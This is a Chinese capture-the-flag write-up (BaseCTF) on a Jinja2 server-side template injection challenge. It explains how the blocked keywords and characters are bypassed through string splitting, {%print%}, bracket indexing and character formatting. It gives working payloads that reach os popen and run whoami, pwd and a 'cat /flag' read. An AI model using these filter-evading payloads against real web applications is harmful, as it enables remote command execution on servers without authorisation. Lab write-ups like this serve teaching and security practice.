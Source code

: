 发现屏蔽了

```
+ - * / . {{ }} __ : " \ 和class等关键词

关键词通过cl''ass绕过

{{}}使用{%print%}绕过

__屏蔽选择  _''_绕过

.使用[]绕过
{{().__class__}} 可替换为:{{()["__class__"]}}

```

然后将经典句式替换(当然，具体位置和命令都可以修改)

```
{%print(c.__class__.__mro__[3].__subclasses__()[137].__init__.__globals__['popen']('whoami').read())%}进行替换
```

但是这里不知到为什么

```
__mro__失效了，于是运用基础的__base__
```

用一次base找到了obj，然后从obj用__subclasses__()进入经典变量popen所在地<class 'os._wrap_close'>

![](https://s2.loli.net/2024/11/17/HaWXK5RjcteZf7w.png)

之后按照经典套路进入popen执行命令即可

用init初始化，用global进入全局变量，选择popen，执行pwn命令并加上read读出指令让print打印出来

```
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('pwd')['rea''d']())%}
```

然后考虑到/被ban，使用chr绕过即可

```
BaseCTF{% set cmd='cat '~'%c'%(47)~'flag' %} {%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen'](cmd)['rea''d']())%}
```

而为了修改方便，popen中的命令使用cmd变量即可

![](https://s2.loli.net/2024/11/17/vaTI4uZXSn6RDwh.png)


## SSIT

参考文献： [1. SSTI（模板注入）漏洞（入门篇） - bmjoker - 博客园 (cnblogs.com)](https://www.cnblogs.com/bmjoker/p/13508538.html)
